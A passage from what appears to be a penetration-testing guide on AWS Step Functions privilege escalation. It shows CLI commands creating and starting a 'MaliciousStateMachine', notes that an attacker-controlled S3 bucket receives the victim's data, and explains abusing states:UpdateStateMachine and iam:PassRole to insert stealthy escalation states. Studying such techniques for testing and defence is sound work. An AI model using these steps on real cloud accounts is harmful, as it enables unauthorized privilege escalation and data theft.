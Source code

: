 {% code overflow="wrap" %}
```bash
aws stepfunctions create-state-machine --name MaliciousStateMachine --definition file://stateMachineDefinition.json --role-arn arn:aws:iam::123456789012:role/PermissiveRole
{
  "stateMachineArn": "arn:aws:states:us-east-1:123456789012:stateMachine:MaliciousStateMachine",
  "creationDate": "2024-07-09T20:29:35.381000+02:00"
}
```
{% endcode %}

* **Command** executed to **start an execution** of the previously created state machine:

{% code overflow="wrap" %}
```json
aws stepfunctions start-execution --state-machine-arn arn:aws:states:us-east-1:123456789012:stateMachine:MaliciousStateMachine
{
    "executionArn": "arn:aws:states:us-east-1:123456789012:execution:MaliciousStateMachine:1a2b3c4d-1a2b-1a2b-1a2b-1a2b3c4d5e6f",
    "startDate": "2024-07-09T20:33:35.466000+02:00"
}
```
{% endcode %}

{% hint style="warning" %}
The attacker-controlled S3 bucket should have permissions to accept an s3:PutObject action from the victim account.
{% endhint %}

**Potential Impact**: Unauthorized execution and manipulation of workflows and access to sensitive resources, potentially leading to significant security breaches.

### `states:UpdateStateMachine` & (not always required) `iam:PassRole`

An attacker with the **`states:UpdateStateMachine`** permission would be able to modify the definition of an state machine, being able to add extra stealthy states that could end in a privilege escalation. This way, when a legitimate user starts an execution of the state machine, this new malicious stealth state will be executed and the privilege escalation will be successful.

Depending on how permissive is the IAM Role associated to the state machine is, an attacker would face 2 situations:

1. **Permissive IAM Role**: If the IAM Role associated to the state machine is already permissive (it has for example the **`arn:aws:iam::aws:policy/AdministratorAccess`** policy attached), then the **`iam:PassRole`** permission would not be required in order to escalate privileges since it would not be necessary to also update the IAM Role, with the state machine definition is enough.
2. **Not permissive IAM Role**: In contrast with the previous case, here an attacker would also require the **`iam:PassRole`** permission since it would be necessary to associate a permissive IAM Role to the state machine in addition to modify the state machine definition.

{% code overflow="wrap" %}
```bash
aws states update-state-machine --state-machine-arn <value> [--definition <value>] [--role-arn <value>] [--logging-configuration <value>] \
[--tracing-configuration <enabled=true|false>] [--publish | --no-publish] [--version-description <value>]
```
{% endcode %}
